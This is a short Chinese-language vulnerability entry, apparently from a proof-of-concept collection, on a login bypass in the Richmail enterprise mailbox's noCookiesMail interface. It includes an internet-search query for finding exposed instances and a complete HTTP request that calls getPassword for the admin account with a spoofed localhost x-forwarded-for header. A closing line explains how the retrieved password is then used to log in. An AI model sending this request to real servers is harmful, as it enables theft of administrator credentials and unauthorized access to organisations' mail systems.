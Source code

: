 # Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

# Richmail 企业邮箱 noCookiesMail 登陆绕过漏洞

## 漏洞描述

Richmail 企业邮箱 noCookiesMail 接口存在登陆绕过漏洞，攻击者通过漏洞可以获取管理员账号密码登录后台

## 漏洞影响

Richmail 企业邮箱

## 网络测绘

```
"Richmail 企业邮箱"
```

## 漏洞复现

登陆页面

![image-20231115104548787](images/image-20231115104548787.png)

poc

```
GET /RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin HTTP/1.1 
Host:
Cache-Control: max-age=0 
Content-Type: Application/X-www-Form
x-forwarded-for: 127.0.0.1
```

![image-20231115104603790](images/image-20231115104603790.png)

替换请求中的password字段即可登陆。

